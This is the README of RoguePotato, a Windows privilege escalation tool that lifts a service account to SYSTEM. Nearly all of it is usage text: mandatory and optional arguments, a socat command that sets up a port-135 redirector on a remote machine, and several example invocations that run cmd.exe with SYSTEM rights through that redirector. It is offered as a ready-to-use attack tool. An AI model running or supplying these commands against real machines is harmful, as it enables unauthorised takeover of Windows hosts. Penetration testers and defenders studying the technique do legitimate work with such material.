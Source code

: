 # RoguePotato

Just another Windows Local Privilege Escalation from Service Account to System. Full details at --> https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/

## Usage

``` 

        RoguePotato
        @splinter_code & @decoder_it


Mandatory args:
-r remote_ip: ip of the remote machine to use as redirector
-e commandline: commandline of the program to launch


Optional args:
-l listening_port: This will run the RogueOxidResolver locally on the specified port
-c {clsid}: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-p pipename_placeholder: placeholder to be used in the pipe name creation (default: RoguePotato)
-z : this flag will randomize the pipename_placeholder (don't use with -p)


Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
        
```  

## Demo

![demo](demo.png)

